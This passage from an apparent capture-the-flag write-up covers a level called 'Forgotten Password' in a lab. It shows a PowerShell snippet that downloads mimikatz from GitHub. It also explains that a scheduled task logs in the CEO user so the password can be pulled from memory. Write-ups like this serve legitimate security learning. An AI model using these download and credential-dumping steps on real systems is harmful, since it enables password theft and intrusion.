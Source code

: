 ![DC1-6](/assets/img/GRIMM-hax-combined/26.PNG)

## Forgotten Password (400pts)

This level is a little bit tricky if you did not get it quickly. From the description, I assumed that I needed to use mimikatz to retrieve that password of the `CEO` user. I tried to use Internet Explorer to download mimikatz but it didn't allow me to save the file so I used this following Powershell script to download it:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180502/mimikatz_trunk.zip","C:\Users\fpasswd1\Desktop\meme.zip")
```

After RDP into the machine, you may encounter a cmd window that appears for a few seconds and then disappers. I did not notice that at first and thought I hit a dead end by just using mimikatz. That turned out to be a task to perform the login of the `CEO` user so that I could retrieve the password from memory. It took me a while to figure that out. To trigger the action again, just go to Task Scheduler and run the action.
